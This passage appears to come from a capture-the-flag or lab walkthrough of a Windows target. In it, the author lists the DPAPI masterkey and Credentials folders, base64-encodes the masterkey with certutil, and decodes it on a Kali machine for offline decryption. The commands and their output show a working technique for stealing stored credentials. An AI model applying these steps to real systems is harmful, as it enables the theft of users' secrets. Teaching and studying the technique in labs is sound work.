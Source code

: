      Directory of C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001

    12/11/2018  04:47 PM    <DIR>          .
    12/11/2018  04:47 PM    <DIR>          ..
    08/22/2018  09:18 PM               468 0792c32e-48a5-4fe3-8b43-d93d64590580
    08/22/2018  09:18 PM                24 Preferred
                   2 File(s)            492 bytes
                   2 Dir(s)  16,764,465,152 bytes free



Next I'll use `certutil` to base64 encode it:



    C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>certutil -encode 0792c32e-48a5-4fe3-8b43-d93d64590580 output                                                                                                    
    Input Length = 468
    Output Length = 700
    CertUtil: -encode command completed successfully.

    C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>type output
    -----BEGIN CERTIFICATE-----
    AgAAAAAAAAAAAAAAMAA3ADkAMgBjADMAMgBlAC0ANAA4AGEANQAtADQAZgBlADMA
    LQA4AGIANAAzAC0AZAA5ADMAZAA2ADQANQA5ADAANQA4ADAAAAAAAAAAAAAFAAAA
    sAAAAAAAAACQAAAAAAAAABQAAAAAAAAAAAAAAAAAAAACAAAAnFHKTQBwjHPU+/9g
    uV5UnvhDAAAOgAAAEGYAAOePsdmJxMzXoFKFwX+uHDGtEhD3raBRrjIDU232E+Y6
    DkZHyp7VFAdjfYwcwq0WsjBqq1bX0nB7DHdCLn3jnri9/MpVBEtKf4U7bwszMyE7
    Ww2Ax8ECH2xKwvX6N3KtvlCvf98HsODqlA1woSRdt9+Ef2FVMKk4lQEqOtnHqMOc
    wFktBtcUye6P40ztUGLEEgIAAABLtt2bW5ZW2Xt48RR5ZFf0+EMAAA6AAAAQZgAA
    D+azql3Tr0a9eofLwBYfxBrhP4cUoivLW9qG8k2VrQM2mlM1FZGF0CdnQ9DBEys1
    /a/60kfTxPX0MmBBPCi0Ae1w5C4BhPnoxGaKvDbrcye9LHN0ojgbTN1Op8Rl3qp1
    Xg9TZyRzkA24hotCgyftqgMAAADlaJYABZMbQLoN36DhGzTQ
    -----END CERTIFICATE-----

    C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>del output



I'll paste that base64 text into a file on my machine, and decode it:



    root@kali# cat masterkey.b64 | base64 -d > masterkey



I'll do the same thing for the credentials file:



    C:\Users\security\AppData\Roaming\Microsoft\Credentials>dir /a
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0

     Directory of C:\Users\security\AppData\Roaming\Microsoft\Credentials

    08/22/2018  09:18 PM    <DIR>          .
    08/22/2018  09:18 PM    <DIR>          ..
    08/22/2018  09:18 PM               538 51AB168BE4BDB3A603DADE4F8CA81290
                   1 File(s)            538 bytes
                   2 Dir(s)  16,764,465,152 bytes free
